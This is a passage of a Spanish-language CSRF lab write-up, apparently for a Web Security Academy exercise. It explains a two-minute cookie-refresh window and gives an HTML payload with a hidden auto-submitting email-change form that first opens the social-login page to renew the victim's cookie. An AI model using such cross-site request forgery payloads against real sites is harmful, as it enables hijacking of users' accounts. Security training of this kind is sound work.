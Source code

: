 Si han pasado ya `dos minutos` desde que el `usuario víctima` inició sesión, el `exploit` no funcionará al primer intento. Lo que pasará es que nos `redirigirá` a `URL login` para que se nos `renueve` la `cookie`, y posteriormente, si el `usuario víctima` hace `click` nuevamente en el `exploit`, sí funcionará, debido a que la `cookie` ha sido `renovada`

![](/assets/img/CSRF-Lab-10/image_14.png)

![](/assets/img/CSRF-Lab-10/image_15.png)

Para forzar que se `refresque` la `cookie`, podemos hacerlo abriendo una `nueva pestaña`. Para ello, creamos un nuevo `payload` y lo `almacenamos` en el `Exploit server`

```
<html>
  <body>
    <form action="https://0a3f009203784cc58192c61400090045.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
        window.open('https://0a3f009203784cc58192c61400090045.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    
        function changeEmail(){
            document.forms[0].submit();
        }
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-10/image_16.png)
